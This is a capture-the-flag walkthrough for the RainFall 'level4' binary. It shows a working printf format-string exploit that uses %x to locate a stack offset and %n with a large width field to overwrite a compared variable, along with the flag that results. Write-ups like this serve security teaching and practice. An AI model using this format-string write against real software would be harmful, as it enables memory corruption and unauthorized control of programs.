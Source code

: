 # Walkthrough

## Solution

```
(python -c 'print ("\x10\x98\x04\x08" + "%16930112c" + "%12$n")') | ./level4
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
## Explanation

### Execution

```
level4@RainFall:~$ ./level4
hello
hello
```
-> The program waits for an input, and then echo that output.  

### Disassembly

```
info variable
0x08049810  m

info function
0x08048444  p
0x08048457  n
0x080484a7  main
```

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  


### Steps

There is a call to printf, when calling p() in n().  
It compares the variable n to 16930116, we can use the %n exploit like in level3.  

Let's find in which position does the m variable address starts.
```
level4@RainFall:~$ ./level4 
AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
AAAA b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```  
-> it is on the 12th position

However, we can't write 16930116 characters, but we can play with the width parameter of printf.

-------------------------------  
m address: 0x08049810  
printing 16930112 characters (16930116 - 4 bytes (m address))  

> (python -c 'print ("\x10\x98\x04\x08" + "%16930112c" + "%12$n")') | ./level4

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a